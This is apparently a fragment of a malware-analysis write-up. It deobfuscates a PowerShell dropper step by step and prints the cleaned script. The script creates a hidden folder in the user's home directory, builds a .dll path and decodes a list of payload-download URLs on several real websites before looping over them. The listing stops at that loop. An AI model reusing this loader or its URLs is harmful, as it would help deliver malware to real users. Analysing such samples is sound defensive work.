 ![](/assets/images/2022-05-20-13-57-30.png)

I'll clean few other spots

# Ascii character conversions
```
[char]92
```
This ones can be simply put into powershell

![](/assets/images/2022-05-20-14-31-53.png)

After cleaning some parentshesis manually this is what i've ended up with
```powershell
set mku([type](system.io.directory));
set-item('variable:mbu')[type](system.net.servicepointmanager);
$erroractionpreference = (('silentlycontinue'));
$cvmmq4o = $q26l  +  "@"  +  $e16h;
$j16j = 'n_0p';
(dir variable:mku).value::"createdirectory"($home  +  (('{0}db_bh30{0}yf5be5g{0}')  -f "\"));
$c39y = 'u68s';
(variable("mbu") -valueon )::"securityprotocol" = ('tls12'));
$f35i = 'i4_b';
$swrp6tc = 'a69s';
$x27h = 'c33o';
$imd1yck = $home + ('uohdb_bh30uohyf5be5guoh')."replace"('uoh', "\") + $swrp6tc + '.dll';
$k47v = 'r49g';
$b9fhbyv = (']anw[3s://admintk.com/wp-admin/l/@]anw[3s://mikegeerinck.com/c/yysa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/s/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-content/de/@]anw[3://www.stmarouns.nsw.edu.au/paypal/b8g/@]anw[3://wm.mcdevelop.net/content/6f2gd/')."replace"(']anw[3', ([array]('sd', 'sw'), 'http', '3d')[1])."split"($c83r  +  $cvmmq4o  +  $f10q);
$q52m = 'p05k';
foreach ($bm5pw6z in $b9fhbyv) {
```